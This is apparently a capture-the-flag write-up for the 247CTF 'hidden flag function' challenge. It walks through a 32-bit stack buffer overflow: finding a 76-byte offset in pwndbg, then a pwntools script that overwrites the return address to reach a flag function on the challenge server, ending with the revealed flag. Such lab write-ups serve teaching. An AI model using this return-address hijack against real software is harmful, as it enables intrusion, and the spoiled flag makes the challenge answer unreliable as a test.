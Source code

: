 # HIDDEN FLAG FUNCTION

Can you control this applications flow to gain access to the hidden flag function?


Basic file check:

```bash
❯ checksec --file=hidden_flag_function
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols	 No	0		2		hidden_flag_function
```

let's run the binary

```bash
❯ ./hidden_flag_function
What do you have to say?
hi..
```

open the binary in ghidra :

main function

---

<img width="1402" alt="Screenshot 2024-05-06 at 6 23 09 AM" src="https://github.com/Lynk4/247ctf/assets/44930131/7eb3d7ca-6807-4928-92a4-5561a8e61a5b">


---

flag function

---
<img width="1399" alt="Screenshot 2024-05-06 at 6 23 24 AM" src="https://github.com/Lynk4/247ctf/assets/44930131/e2d126e9-9fe6-43a6-85f1-fcadcabde818">

---


By analyzing the binary we can see that the flag function was never called..........


So our payload will look like this:

padding + flag_function_address

---

let's find the offset:

open it in gdb:

```bash
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> run
Starting program: /home/lynk/247/hidden-flag-function/hidden_flag_function 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What do you have to say?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
*EAX  0x1
*EBX  0x61616172 ('raaa')
 ECX  0x0
*EDX  0xf7fc34c0 ◂— 0xf7fc34c0
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x8048660 (__libc_csu_init) ◂— push ebp
*EBP  0x61616173 ('saaa')
*ESP  0xffffd470 ◂— 'uaaavaaawaaaxaaayaaa'
*EIP  0x61616174 ('taaa')
──────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────────────────────
Invalid address 0x61616174










───────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd470 ◂— 'uaaavaaawaaaxaaayaaa'
01:0004│     0xffffd474 ◂— 'vaaawaaaxaaayaaa'
02:0008│     0xffffd478 ◂— 'waaaxaaayaaa'
03:000c│     0xffffd47c ◂— 'xaaayaaa'
04:0010│     0xffffd480 ◂— 'yaaa'
05:0014│     0xffffd484 ◂— 0x0
06:0018│     0xffffd488 ◂— 0x78 /* 'x' */
07:001c│     0xffffd48c —▸ 0xf7c237c5 (__libc_start_call_main+117) ◂— add esp, 0x10
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────
 ► 0 0x61616174
   1 0x61616175
   2 0x61616176
   3 0x61616177
   4 0x61616178
   5 0x61616179
   6      0x0
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l taaa
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
pwndbg>
```

offset is 76 

for local testing make a flag.txt file with fake flag contents:

let's craft our payload in python3

```python3
from pwn import *

context.binary = binary = "./hidden_flag_function"

payload = b"A" * 76 + p32(0x08048576)

p = process()
p = remote("51d7d32e0522d8bd.247ctf.com", 50217)
p.recv()
p.sendline(payload)
p.interactive()
```

---

running the exploit

---

```bash
❯ python3 exp2.py
[*] '/home/lynk/247/hidden-flag-function/hidden_flag_function'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
[*] '/home/lynk/247/hidden-flag-function/hidden_flag_function'
    Arch:     i386-32-little
    RELRO:    Part
ial RELRO
    Stack:    No canary found
    NX:       NX enabled
[*] '/home/lynk/247/hidden-flag-function/hidden_flag_f[*] '/home/lynk/247/hidden-flag-function/hidden_flag_function'
[*] '/home/lynk/247/hidden-flag-function[*] '/home/[*] '/home/lynk/247/hidden-flag-function/hidden_flag_function'
[*] '/home/lynk/247/hidden-flag-function/hidden_flag_function'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/lynk/247/hidden-flag-function/hidden_flag_function': pid 31780
[+] Opening connection to 51d7d32e0522d8bd.247ctf.com on port 50217: Done
[*] Switching to interactive mode
How did you get here?
Have a flag!
247CTF{b1c2cb7d5a43939f8dc73369ec2dd59d}

[*] Got EOF while reading in interactive
$  

```

---
